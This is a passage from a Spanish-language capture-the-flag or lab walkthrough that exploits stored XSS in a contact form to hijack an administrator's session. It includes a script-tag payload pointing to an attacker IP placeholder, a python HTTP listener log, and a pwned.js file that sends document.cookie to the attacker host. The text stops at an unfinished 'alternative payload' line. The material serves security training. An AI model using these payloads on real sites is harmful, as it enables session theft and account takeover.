 
---

**Acción:** como hay un servicio web, podemos examinar tecnologías con `whatweb <url_objetivo>` y visitar la dirección web para ver a qué nos enfrentamos.

![Captura](./Imágenes/web_1.png)


---

## Secuestro de sesión

![Captura](./Imágenes/web_2.png)

El payload enviado para probar la conexión probando una inyección JavaScript (XSS) es este:

```js
<script src=http://<IP_Atacante>/probando></script>
```

Antes de enviar el payload, abrimos con `python3 -m http.server 80` un servidor en el que recibir la conexión. Confirmamos que recibimos una solicitud. Esto confirma que: 

- 1. Hay una campo vulnerable a inyecciones XSS
	
- 2. Existe un usuario administrador del sistema, que recibe como mensajes los campos enviados en este formulario. Al recibir en payload y clicar en él, accede al recurso solicitado desde nuestro servidor.

```bash
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.113 - - [28/Oct/2025 11:40:43] code 404, message File not found
10.10.10.113 - - [28/Oct/2025 11:40:43] "GET /probando HTTP/1.1" 404 -
```

**Notas:** en la práctica real, empezaríamos probando payloads más simples, desde etiquetas *html* `<h1>test</h1>`, hasta alertas [JavaScript](../../../../Lenguajes/JavaScript/) `<script>alert(0)</script>`. Aunque esto podría descartarse rápido al observar que es un formulario que recibirá una tercera persona, es decir no es el tipo de campo cuyo contenido se vea reflejado desde nuestro lado como cliente. De todos modos al principio desconocemos esta lógica, y podemos y debemos probar de todo, empezando por lo más básico. Además, aquí vamos directamente al campo vulnerable que es el de contacto telefónico. De nuevo, en la práctica real, probaríamos en todos los campos, de uno en uno para poder ir examinando cada respuesta e ir sacando conclusiones del funcionamiento de la página web.

**Acción:** confirmada la conexión, probemos la extracción de cookies y el secuestro de sesión. Tenemos que crear un archivo `.js` que el administrador solicite a nuestro servidor cuando reciba la carga XSS en el formulario. El contenido del archivo `pwned.js` podría ser así:

```js
// pwned.js - exfiltra cookies mediante XHR (asíncrono)
var req = new XMLHttpRequest();
req.open('GET', "http://<IP_Atacante>/?cookie="+document.cookie, false);
req.send();
```

Alternativa de payload:
